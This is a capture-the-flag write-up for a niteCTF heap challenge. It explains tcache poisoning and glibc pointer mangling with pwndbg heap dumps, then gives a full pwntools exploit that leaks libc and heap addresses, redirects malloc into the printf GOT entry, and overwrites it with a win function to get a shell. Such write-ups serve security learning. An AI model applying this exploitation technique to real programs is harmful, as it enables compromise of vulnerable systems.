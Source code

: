# tcache poisoning - niteCTF

[exp.py](tcache%20poisoning%20-%20niteCTF%20fb243762b0e44f69bad291c2f601ec12/exp.py)

[heapchall](tcache%20poisoning%20-%20niteCTF%20fb243762b0e44f69bad291c2f601ec12/heapchall.txt)

[ld-linux-x86-64.so.2](tcache%20poisoning%20-%20niteCTF%20fb243762b0e44f69bad291c2f601ec12/ld-linux-x86-64.so.2)

[libc.so.6](tcache%20poisoning%20-%20niteCTF%20fb243762b0e44f69bad291c2f601ec12/libc.so.6)

### Explanation:

- tcache poisoning tricks the malloc into pointing to an arbitrary address. Since we can read after a chunk is freed we can get the libc and heap leak.

```python
for i in range(0,10):
  allocate(i,128)

for i in range(0,10):
  free(i)
```

<aside>
💡 Pointer mangling: The address in the freed chunks are XORed with the heap_address >>> 12 to make it difficult for the attacker to exploit the heap ?

</aside>

- Here the malloc allocates 10 heap chunks (7 tcache bins) and the free will free them and tcache is updated with the following structure.

```python
tcachebins
0x90 [  7]: 0x18e7600 —▸ 0x18e7570 —▸ 0x18e74e0 —▸ 0x18e7450 —▸ 0x18e73c0 —▸ 0x18e7330 —▸ 0x18e72a0 ◂— 0x0
```

```
0x18e7290	0x0000000000000000	0x0000000000000091	................
0x18e72a0	0x00000000000018e7	0x7bb84541884b3e05	.........>K.AE.{	 <-- tcachebins[0x90][6/7]
0x18e72b0	0x0000000000000000	0x0000000000000000	................
0x18e72c0	0x0000000000000000	0x0000000000000000	................
0x18e72d0	0x0000000000000000	0x0000000000000000	................
0x18e72e0	0x0000000000000000	0x0000000000000000	................
0x18e72f0	0x0000000000000000	0x0000000000000000	................
0x18e7300	0x0000000000000000	0x0000000000000000	................
0x18e7310	0x0000000000000000	0x0000000000000000	................
0x18e7320	0x0000000000000000	0x0000000000000091	................
0x18e7330	0x00000000018e6a47	0x7bb84541884b3e05	Gj.......>K.AE.{	 <-- tcachebins[0x90][5/7]
0x18e7340	0x0000000000000000	0x0000000000000000	................
0x18e7350	0x0000000000000000	0x0000000000000000	................
0x18e7360	0x0000000000000000	0x0000000000000000	................
0x18e7370	0x0000000000000000	0x0000000000000000	................
0x18e7380	0x0000000000000000	0x0000000000000000	................
0x18e7390	0x0000000000000000	0x0000000000000000	................
0x18e73a0	0x0000000000000000	0x0000000000000000	................
0x18e73b0	0x0000000000000000	0x0000000000000091	................
0x18e73c0	0x00000000018e6bd7	0x7bb84541884b3e05	.k.......>K.AE.{	 <-- tcachebins[0x90][4/7]
0x18e73d0	0x0000000000000000	0x0000000000000000	................
0x18e73e0	0x0000000000000000	0x0000000000000000	................
0x18e73f0	0x0000000000000000	0x0000000000000000	................
0x18e7400	0x0000000000000000	0x0000000000000000	................
0x18e7410	0x0000000000000000	0x0000000000000000	................
0x18e7420	0x0000000000000000	0x0000000000000000	................
0x18e7430	0x0000000000000000	0x0000000000000000	................
0x18e7440	0x0000000000000000	0x0000000000000091	................
0x18e7450	0x00000000018e6b27	0x7bb84541884b3e05	'k.......>K.AE.{	 <-- tcachebins[0x90][3/7]
0x18e7460	0x0000000000000000	0x0000000000000000	................
0x18e7470	0x0000000000000000	0x0000000000000000	................
0x18e7480	0x0000000000000000	0x0000000000000000	................
0x18e7490	0x0000000000000000	0x0000000000000000	................
0x18e74a0	0x0000000000000000	0x0000000000000000	................
0x18e74b0	0x0000000000000000	0x0000000000000000	................
0x18e74c0	0x0000000000000000	0x0000000000000000	................
0x18e74d0	0x0000000000000000	0x0000000000000091	................
0x18e74e0	0x00000000018e6cb7	0x7bb84541884b3e05	.l.......>K.AE.{	 <-- tcachebins[0x90][2/7]
0x18e74f0	0x0000000000000000	0x0000000000000000	................
0x18e7500	0x0000000000000000	0x0000000000000000	................
0x18e7510	0x0000000000000000	0x0000000000000000	................
0x18e7520	0x0000000000000000	0x0000000000000000	................
0x18e7530	0x0000000000000000	0x0000000000000000	................
0x18e7540	0x0000000000000000	0x0000000000000000	................
0x18e7550	0x0000000000000000	0x0000000000000000	................
0x18e7560	0x0000000000000000	0x0000000000000091	................
0x18e7570	0x00000000018e6c07	0x7bb84541884b3e05	.l.......>K.AE.{	 <-- tcachebins[0x90][1/7]
0x18e7580	0x0000000000000000	0x0000000000000000	................
0x18e7590	0x0000000000000000	0x0000000000000000	................
0x18e75a0	0x0000000000000000	0x0000000000000000	................
0x18e75b0	0x0000000000000000	0x0000000000000000	................
0x18e75c0	0x0000000000000000	0x0000000000000000	................
0x18e75d0	0x0000000000000000	0x0000000000000000	................
0x18e75e0	0x0000000000000000	0x0000000000000000	................
0x18e75f0	0x0000000000000000	0x0000000000000091	................
0x18e7600	0x00000000018e6d97	0x7bb84541884b3e05	.m.......>K.AE.{	 <-- tcachebins[0x90][0/7]
0x18e7610	0x0000000000000000	0x0000000000000000	................
0x18e7620	0x0000000000000000	0x0000000000000000	................
0x18e7630	0x0000000000000000	0x0000000000000000	................
0x18e7640	0x0000000000000000	0x0000000000000000	................
0x18e7650	0x0000000000000000	0x0000000000000000	................
0x18e7660	0x0000000000000000	0x0000000000000000	................
0x18e7670	0x0000000000000000	0x0000000000000000	................
0x18e7680	0x0000000000000000	0x0000000000020981	................	 <-- Top chunk
```

- edit the freed chunk to the GOT address of a function like printf. then malloc to get into the fake chunk inside the GOT.

```
pwndbg> tcachebins
tcachebins
0x90 [  5]: 0x7fe84cfb3374 (printf_size+2084) ◂— sub byte ptr [r8 - 0x5c016fe], r9b
```

- Now malloc one more time to go into the printf GOT and then edit the value to the win function to get a shell when printf is called next.

```python
p = start()
for i in range(0,10):
  allocate(i,128)

for i in range(0,10):
  free(i)
pause()
bin0_leak = leak(0)
bin1_leak = leak(1)
bin7_leak = leak(7)

libc.address=bin7_leak-2202848
heap_leak=(bin0_leak ^ bin1_leak)

log.info("Libc Leak Found: %s" %hex(libc.address))
log.info("Tcache Leak Found: %s" %hex(heap_leak))

overwrite_addr = e.got['printf']
encrypted_ptr = (bin0_leak ^ overwrite_addr)

edit(6,p64(encrypted_ptr))
allocate(5,128)
allocate(3,128)
pause()
edit(3,p64(e.sym['win']))

p.interactive()
```
